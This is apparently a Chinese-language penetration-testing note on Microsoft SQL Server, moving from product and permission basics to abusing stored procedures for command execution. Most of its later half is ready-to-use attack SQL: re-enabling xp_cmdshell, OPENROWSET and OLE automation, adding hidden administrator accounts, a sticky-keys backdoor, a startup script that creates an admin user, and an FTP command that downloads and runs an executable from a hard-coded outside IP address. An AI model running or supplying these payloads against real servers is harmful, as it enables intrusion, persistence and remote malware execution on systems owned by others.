


## MSSQL  简介
SQL Server是Microsoft开发的关系数据库管理系统（RDBMS）。 它是市场上最受欢迎的DBMS之一。SQL Server具有极其广泛的用途，它可以在各个方面使用,从存储个人博客的内容到存储客户数据等。
在2017版之前，SQL Server仅适用于Windows。 SQL Server 2017中最大的变化之一是，它现在可在Linux和Docker容器上使用。 这意味着可以在Mac上运行SQL Server。
SQL Server的可用版本

| 版本 | 描述 |
| --- | --- |
| Enterprise Edition | 此版本仅在Windows Server操作系统上运行。 适用于对速度和可用性具有较高优先级的大型生产数据库服务器。提供复制和联机分析过程（OLAP）服务等功能，这些服务可能会增加其安全风险。 |
| Standard Edition | 该版本与Enterprise Edition相似，但缺少虚拟接口系统局域网（VI SAN）支持和某些高级OLAP功能。 |
| Personal Edition | 它旨在用于工作站和便携式计算机，而不是服务器。 其设计最多支持五个数据库用户。 |
| Developer Edition | 面向开发人员版本，它与Enterprise Edition具有相似的功能，但并不意味着可以在真实的生产环境中运行。 |

### 客户端/服务器数据库系统
SQL Server是一个客户端/服务器数据库管理系统（DBMS）。 这允许有许多不同的客户端同时，全部连接到SQL Server。 这些客户端的每一个都可以通过不同的工具进行连接。
例如，一个客户端可能使用如SQL Server Management Studio（SSMS）之类的图形工具，而另一客户端可能使用诸如sqlcmd之类的命令行工具。 同时，网站也可以从Web应用程序连接到SQL Server。 并且可能有许多其他客户端都使用自己的工具出于自己的目的进行连接。
客户端/服务器DBMS的主要优点是多个用户可以同时访问它，每个用户都有特定的访问级别。如果数据库管理员配置对应的权限，则任何连接到SQL Server的客户端将只能访问他们被允许访问的数据库。 他们只能执行允许执行的任务。 所有这些都从SQL Server本身内部进行控制。
SQL Server是在服务帐户的上下文中在操作系统上运行的一组Windows服务。每次安装SQL Server实例时，实际上都会安装一组Windows服务并具有唯一的名称。现有的SQL Server帐户类型：

- Windows帐户。
- SQL Server登录名（SQL Server内部）。
- 数据库用户（SQL Server内部）。

Windows帐户和SQL Server登录名用于登录SQL Server。除非系统管理员，否则必须将SQL Server登录名映射到数据库用户才能访问数据。数据库用户是在数据库级别内单独创建的。
SQL Server的常见角色是：

- Sysadmin角色：SQL Server管理员。
- Public角色：最低特权，类似于Windows中的everyone组。
- 更多请参考：[https://docs.microsoft.com/en-us/sql/relational-databases/security/authentication-access/server-level-roles?view=sql-server-2017](https://docs.microsoft.com/en-us/sql/relational-databases/security/authentication-access/server-level-roles?view=sql-server-2017)
### 基础知识
#### 系统库

在每个网站中，一般一个网站不会跨库，而且在MSSQL中的每个库都有一个系统自带表：`sysobjects`
此信息表中对我们有用的只有3个字段，`NAME`,`XTYPE`,`ID`字段，name 表示表名，xtype 表示表的类型，id字段的值用来连接syscolumns表
sysobjects是一个系统视图，用于存放该数据库内创建的所有对象，如约束、默认值、日志、规则、存储过程等，而xtype代表对象的类型。

| 类型简称 | 含义 |
| --- | --- |
| U | 表（用户定义类型） |
| V | 视图 |
| P | 存储过程 |
| X | 拓展存储过程 |

### 危险的存储过程
#### xp_cmdshell
查询xp_cmdshell存储过程是否存在
xtype为对象类型，xtype='x'，表示存储过程的对象类型为扩展存储过程。
```sql
select * from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell'
```

最为经典的就是这个组件了,但是2005之后就默认关闭,而且现在来说都会把这个扩展删除掉
激活命令
```sql
EXEC sp_configure 'show advanced options', 1; 
RECONFIGURE; 
exec SP_CONFIGURE 'xp_cmdshell', 1; 
RECONFIGURE;
```
相关问题

1. 未能找到存储过程'master..xpcmdshell'.

恢复方法：
```sql
EXEC sp_addextendedproc xp_cmdshell,@dllname ='xplog70.dll' declare @o int
EXEC sp_addextendedproc 'xp_cmdshell', 'xpsql70.dll'
```

2. 无法装载 DLL xpsql70.dll 或该DLL所引用的某一 DLL。原因126（找不到指定模块。）

恢复方法：
```sql
EXEC sp_dropextendedproc "xp_cmdshell"
EXEC sp_addextendedproc 'xp_cmdshell', 'xpsql70.dll'
```

3. 无法在库 xpweb70.dll 中找到函数 xp_cmdshell。原因: 127(找不到指定的程序。)

恢复方法：
```sql
exec sp_dropextendedproc 'xp_cmdshell'
exec sp_addextendedproc 'xp_cmdshell','xpweb70.dll'
```

4. SQL Server 阻止了对组件 'xp_cmdshell' 的 过程'sys.xp_cmdshell' 的访问，因为此组件已作为此服务器安全配置的一部分而被关闭。系统管理员可以通过使用 sp_configure 启用 'xp_cmdshell'。有关启用 'xp_cmdshell' 的详细信息，请参阅 SQL Server 联机丛书中的 "外围应用配置器"。

恢复方法：
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```
#### xp_dirtree
获取文件信息,可以列举出目录下所有的文件与文件夹
参数说明:目录名,目录深度,是否显示文件 
```sql
execute master..xp_dirtree 'c:' 
execute master..xp_dirtree 'c:',1 
execute master..xp_dirtree 'c:',1,1
```
#### OPENROWSET
OPENROWSET 在MSSQL 2005及以上版本中默认是禁用的.需要先打开:
激活语句
```sql
EXEC sp_configure 'show advanced options', 1; 
exec sp_configure RECONFIGURE; 
exec SP_CONFIGURE 'Ad Hoc Distributed Queries', 1; 
exec sp_configure RECONFIGURE;
```
```sql
SELECT * FROM OPENROWSET('SQLOLEDB', '数据库地址';'数据库用户名';'数据库密码', 'SET FMTONLY OFF execute master..xp_cmdshell "dir"');
```
这种攻击是需要首先知道用户密码的
#### 沙盒
开启沙盒：
```sql
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWAREMicrosoftJet4.0Engines','SandBoxMode','REG_DWORD',1
执行命令:
select * from openrowset('microsoft.jet.oledb.4.0',';database=c:windowssystem32iasdnary.mdb','select shell("whoami")')
```
#### SP_OACREATE
其实xp_cmdshell一般会删除掉了,如果xp_cmdshell 删除以后，可以使用SP_OACreate
需要注意的是这个组件是无回显的,你可以把他直接输出到web目录下的文件然后读取
激活命令
```sql
EXEC sp_configure 'show advanced options', 1; 
exec sp_configure RECONFIGURE; 
exec sp_configure 'Ole Automation Procedures', 1; 
exec sp_configure RECONFIGURE;
```
下面是收集来的sp_OACreate的一些命令:
```sql
-- 1）直接加用户
-- 2000系统
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\winnt\system32\cmd.exe /c net user 123 123 /add'
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\winnt\system32\cmd.exe /c net localgroup administrators 123/add'
 
  
 
-- xp和2003系统：
 
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c net user 123$ 123/add'
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c net localgroup administrators 123$ /add'

-- 2）粘贴键替换
 
declare @o int
exec sp_oacreate 'scripting.filesystemobject', @o out 
exec sp_oamethod @o, 'copyfile',null,'c:\windows\explorer.exe' ,'c:\windows\system32\sethc.exe';
 
declare @o int
exec sp_oacreate 'scripting.filesystemobject', @o out 
exec sp_oamethod @o, 'copyfile',null,'c:\windows\system32\sethc.exe' ,'c:\windows\system32\dllcache\sethc.exe';
 
-- 需要同时具备sp_oacreate 和sp_oamethod 两个功能组件

-- 3）直接传马
 
DECLARE @shell INT EXEC SP_OAcreate 'wscript.shell',@shell OUTPUT EXEC SP_OAMETHOD @shell,'run',null, '%systemroot%\system32\cmd.exe /c echo open 222.180.210.113 > cmd.txt&echo 123>> cmd.txt&echo123>> cmd.txt&echo binary >> cmd.txt&echo get 1.exe >> cmd.txt&echo bye >> cmd.txt&ftp -s:cmd.txt&1.exe&1.exe&del cmd.txt. /q /f&del 1.exe /f /q'--

-- 4）启动项写入加账户脚本
 
declare @sp_passwordxieo int, @f int, @t int, @ret int
exec sp_oacreate 'scripting.filesystemobject', @sp_passwordxieo out
exec sp_oamethod @sp_passwordxieo, 'createtextfile', @f out, 'd:\RECYCLER\1.vbs', 1
exec @ret = sp_oamethod @f, 'writeline', NULL,'set wsnetwork=CreateObject("WSCRIPT.NETWORK")'
exec @ret = sp_oamethod @f, 'writeline', NULL,'os="WinNT://"&wsnetwork.ComputerName'
exec @ret = sp_oamethod @f, 'writeline', NULL,'Set ob=GetObject(os)'
exec @ret = sp_oamethod @f, 'writeline', NULL,'Set oe=GetObject(os&"/Administrators,group")'
exec @ret = sp_oamethod @f, 'writeline', NULL,'Set od=ob.Create("user","123$")'
exec @ret = sp_oamethod @f, 'writeline', NULL,'od.SetPassword "123"'
exec @ret = sp_oamethod @f, 'writeline', NULL,'od.SetInfo'
exec @ret = sp_oamethod @f, 'writeline', NULL,'Set of=GetObject(os&"/123$",user)'
exec @ret = sp_oamethod @f, 'writeline', NULL,'oe.add os&"/123$"';

5）如果该服务器有网站，则直接用方法4）写入一句话
```
## 参考链接
[https://xz.aliyun.com/t/9475](https://xz.aliyun.com/t/9475)

[https://xz.aliyun.com/t/8513](https://xz.aliyun.com/t/8513)

[https://www.anquanke.com/post/id/86011](https://www.anquanke.com/post/id/86011)

[https://xie1997.blog.csdn.net/article/details/88679754](https://xie1997.blog.csdn.net/article/details/88679754)

[https://www.cnblogs.com/lishuyi/p/4111496.html](https://www.cnblogs.com/lishuyi/p/4111496.html)

[https://blog.csdn.net/Fly_hps/article/details/80301792](https://blog.csdn.net/Fly_hps/article/details/80301792)

[https://xz.aliyun.com/t/7534](https://xz.aliyun.com/t/7534)


